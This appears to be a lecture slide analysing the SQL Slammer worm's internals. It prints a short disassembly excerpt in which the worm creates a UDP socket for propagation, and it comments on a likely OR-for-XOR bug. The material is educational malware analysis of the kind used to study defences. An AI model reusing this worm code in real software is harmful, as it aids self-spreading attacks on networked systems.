

# Slammer Worm Insides
worm then creates a UDP socket for use in propagation. The socket is a User Datagram Protocol socket, and the function address is pulled from the return value of GetProcAddress. The worm then saves the socket descriptor to its stack frame:
push 11h 		; [EBP-54h] IPPROTO_UDP - User Datagram Protocol
push 2 		; [EBP-58h] SOCK_DGRAM - Datagram socket
push 2 		; [EBP-5Ch] AF_INET - Internet address family
call eax 			; Procedure exit: ESP=EBP-50h
push eax 			; [EBP-54h]
lea eax, [ebp-3Ch]
push eax 			; [EBP-58h]
mov eax, [ebp-40h]
push eax 			; [EBP-5Ch]
call dword ptr [esi] 	; Procedure exit: ESP=EBP-54h
mov esi, eax
worm XORs the EBX register with 0xFFD9613C. The OR instruction was most likely intended to be an XOR.
or ebx, ebx